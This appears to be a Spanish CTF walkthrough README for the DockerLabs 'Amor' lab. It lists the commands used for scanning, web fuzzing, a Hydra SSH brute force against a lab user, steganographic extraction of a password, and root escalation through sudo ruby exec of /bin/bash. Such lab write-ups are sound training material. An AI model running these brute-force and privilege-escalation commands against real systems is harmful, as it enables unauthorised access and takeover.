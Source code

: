 # DockerLabs - Reto Amor

## Descripción del Ejercicio

Este reto forma parte de la plataforma DockerLabs, orientada a practicar habilidades con Docker mediante laboratorios clasificados por dificultad. En esta ocasión, abordamos el reto de nivel **Fácil** llamado **Amor**, cuyo objetivo es desplegar un contenedor vulnerable, realizar escaneo, explotación por SSH, análisis de imágenes y esteganografía para obtener credenciales privilegiadas.

---

## 🛠️ Despliegue del Laboratorio

### Prerrequisitos
- Tener instalado Docker.

### Descarga del laboratorio

```bash
scp -r amor kali@192.168.1.12:/home/kali/Documents/
```

### Instalación de Docker en Kali (si no está instalado)

```bash
sudo apt install docker.io
```

### Despliegue de la máquina

```bash
./auto_deploy.sh amor.tar
```

---

## 🔎 Escaneo de la Red

### Paso 1: Identificar interfaz de red

```bash
ip add
```

### Paso 2: Descubrir hosts activos

```bash
sudo netdiscover -i docker0 -r 172.17.0.0/24
```

### Paso 3: Escaneo de puertos

```bash
sudo nmap --min-rate 5000 -p- -sS -sV 172.17.0.2
```

---

## 🌐 Enumeración Web

### Fuzzing con Gobuster

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

---

## 🔐 Ataque SSH con Hydra

### Ataque de fuerza bruta con Hydra

```bash
hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10
```

### Conexión SSH y navegación

```bash
ssh carlota@172.17.0.2
cd /carlota/Desktop/fotos/vacaciones
```

### Descarga del archivo

```bash
scp carlota@172.17.0.2:/home/carlota/Desktop/fotos/vacaciones/imagen.jpg /home/kali/Documents/amor
```

---

## 🕵️‍♀️ Esteganografía

### Inspección de archivo

```bash
file imagen.jpg
steghide --extract -sf imagen.jpg
```

### Decodificación base64

```bash
echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 -d; echo
```

### Escalada de privilegios

```bash
su oscar
sudo -l
sudo /usr/bin/ruby -e 'exec "/bin/bash"'
whoami
```

---

## 📘 Investigación de Herramientas

| Herramienta   | Definición | Funcionalidad | Casos de Uso |
|---------------|------------|---------------|--------------|
| Docker        | Contenedor ligero | Despliegue de entornos aislados | DevOps, pentesting, microservicios |
| SCP           | Secure Copy Protocol | Transferencia de archivos segura por SSH | Migración de archivos, backups |
| Netdiscover   | Detector de redes | Descubrimiento de IPs activas en red local | Pentesting, análisis de red |
| Nmap          | Network Mapper | Escaneo de puertos y detección de servicios | Auditorías de seguridad |
| Gobuster      | Fuerza bruta en directorios web | Fuzzing de rutas en servidores web | Enumeración de contenido oculto |
| Hydra         | Fuerza bruta por protocolos | Descubrimiento de credenciales | Pentesting SSH, FTP, HTTP |
| Steghide      | Herramienta de esteganografía | Ocultamiento/Extracción de datos en imágenes | CTFs, ciberseguridad ofensiva |
| Base64        | Codificación de datos | Ocultar cadenas en base64 | Transmisión de datos, CTFs |
| Ruby console  | Lenguaje de scripting | Ejecución de comandos con permisos | Escalada de privilegios |

---

## 🔍 Variantes y Explicación de Comandos

(Se explicarán en detalle en la siguiente sección complementaria del README)

---

## 🔄 Diagrama de Flujo del Procedimiento

![Diagrama de Flujo del CTF]()

---

## 🧠 Conclusiones

Este laboratorio permitió aplicar múltiples técnicas de reconocimiento, escaneo, acceso remoto, esteganografía y escalada de privilegios de manera práctica y estructurada, reforzando competencias clave para CTFs y pentesting.

---

## 🖼️ Fuentes e Imágenes

- Capturas obtenidas de entorno real de laboratorio

![despliegue](despliegue%20maquina.png)

![Escaneo](escaneo%20puertos.png)

![identificacion](identif%20red.png)

- Diccionarios: `rockyou.txt`, `dirbuster`
- Imagen descargada en `/Desktop/fotos/vacaciones/imagen.jpg`

